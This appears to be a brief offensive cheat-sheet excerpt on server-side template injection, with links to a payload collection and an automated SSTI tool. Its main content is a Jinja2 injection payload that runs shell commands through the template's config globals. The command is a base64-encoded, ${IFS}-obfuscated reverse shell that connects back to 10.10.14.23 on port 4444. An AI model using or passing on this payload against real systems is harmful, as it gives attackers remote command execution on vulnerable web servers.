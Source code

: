 
### command execution:

```
# to execute a base64 payload
{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjE=${IFS}|base64${IFS}-d|bash').read()}}
# see : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-subprocesspopen
```

### Automated tool
https://github.com/vladko312/SSTImap